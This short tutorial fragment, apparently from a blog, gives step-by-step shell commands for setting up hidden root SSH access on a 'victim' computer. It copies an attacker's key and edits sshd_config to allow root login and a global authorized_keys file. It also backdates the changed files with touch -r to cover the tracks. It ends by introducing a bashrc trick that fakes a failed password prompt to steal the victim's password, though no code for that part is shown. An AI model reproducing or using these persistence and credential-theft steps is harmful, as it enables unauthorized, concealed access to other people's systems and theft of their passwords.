 Create key pair on hostile's computer, move public key to victim's computer and take SSH connection to it

{% highlight shell %}
# ssh-keygen
# ssh-copy-id [username]@[victim ip address]
# ssh [username]@[victim ip address]
{% endhighlight %}

On victim's computer modify sshd_config allow the root to login, change SSH to find public keys also from /etc/ssh/authorized_keys and move public key to that location.

{% highlight shell %}
# nano /etc/ssh/sshd_config
PermitRootLogin yes
AuthorizedKeysFile %h/.ssh/authorized_keys /etc/ssh/authorized_keys

# cp /home/[username]/.ssh/authorized_keys /etc/ssh/
# chown root:root /etc/ssh/authorized_keys
# chmod +r /etc/ssh/authorized_keys
# service ssh restart
# touch /etc/ssh/sshd_config -r /srv
# touch /etc/ssh/authorized_keys -r /srv
{% endhighlight %}

Now you can take SSH connection without password using root (or any other user) from hostile computer

{% highlight shell %}
# ssh root@[victim ip address]
{% endhighlight %}

## Steal SSH password using bashrc

Modify bash.bashrc so it looks like first password went wrong and you need to write it again, but actually it steals victim's password and adds it to a file
